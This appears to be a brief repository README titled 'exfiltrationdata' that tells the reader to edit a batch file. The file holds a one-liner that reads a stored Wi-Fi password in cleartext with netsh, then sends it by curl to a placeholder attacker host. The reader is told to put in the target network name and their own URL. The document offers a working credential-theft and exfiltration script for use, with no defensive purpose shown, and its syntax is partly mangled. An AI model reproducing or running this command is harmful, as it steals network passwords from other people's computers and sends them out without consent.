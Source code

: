 # exfiltrationdata

Change file exfilt.bat 

$wif = (netsh wlan show profile name= "<name-wifi>" key=clear | findstr Contenue*) ; curl <<http ://attackerdotcom/>>?$wif 

And replace name-wifi and http link
